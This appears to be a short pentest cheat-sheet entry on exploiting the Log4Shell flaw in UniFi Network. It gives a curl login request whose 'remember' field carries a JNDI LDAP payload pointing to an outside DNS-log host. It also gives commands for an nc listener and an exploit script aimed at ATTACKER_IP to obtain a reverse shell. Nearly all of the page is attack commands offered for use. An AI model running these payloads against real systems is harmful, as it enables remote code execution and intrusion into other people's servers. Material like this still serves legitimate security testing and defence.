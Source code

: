 ```yaml
---
title: Log4Unifi
desc: Exploitation Log4j tool in Unifi Network.
tags: [Log4j, ReverseShell]
alts: [Log4Shell]
website: https://github.com/puzzlepeaches/Log4jUnifi
render_with_liquid: false
---
```


## Test for vulnerability

```sh
curl -i -s -k -X POST -H $'Host: vulnerable.com:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://9ulral.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://vulnerable.com:8443/api/login'
```

<br />

## Exploit (Log4Unifi)

```sh
# Listen on the attacker machine
nc -lvnp 4444

# --------------------------------

python exploit.py -u https://vulnerable.com:8443 -i <ATTACKER_IP> -p 4444
```

reference: [https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi)